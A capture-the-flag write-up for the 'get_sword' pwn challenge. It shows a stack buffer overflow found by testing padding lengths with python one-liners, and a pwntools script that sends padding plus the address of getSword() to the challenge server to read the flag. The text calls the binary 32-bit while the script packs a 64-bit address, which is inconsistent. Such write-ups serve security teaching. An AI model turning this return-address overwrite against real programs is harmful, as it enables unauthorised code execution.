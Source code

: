 ```c
//getSword

void getSword(void)

{
  system("cat flag.txt");
  fflush(_stdout);
  return;
}
```

The `getSword()` function makes the challenge easier because our mission now is just to find a way to call it and we will get the flag

![It's Hacking Time](https://i.imgur.com/kuFQ3u9.jpg)

First, we need to overflow the buffer by filling it with 24 characters

```sh
python -c "print('A'*24)" | ./get_sword
```

But I don't see the `Segmentation Fault` here, so I'll continue to test some values until I reach it (it's **28** characters)

![28 chars](Pwn/img/get-the-sword-28.png)

Because this is 32-bit program, we can then add 4 more bytes to overflow the EBP register. If it's 64-bit program, the bytes will be 8 to overflow the RBP register

```sh
python -c "print('A'*32)" | ./get_sword
```

Finally, by adding the address of the `getSword()` function, we can call it and retrieve the flag

You can use **[gdb](https://github.com/hugsy/gef)** to get the address of the `getSword()` function or use **pwntools** to find it faster

This is the exploit script:

```py
#!/usr/bin/python3

from pwn import *

elf = ELF("./get_sword")
io = remote("173.255.201.51", 31337)
io.sendline(b'\x90'*32 + p64(elf.sym['getSword']))
io.interactive()
io.close()
```

![flag](Pwn/img/get-the-sword-flag.png)

`Flag: KCTF{so_you_g0t_the_sw0rd}`
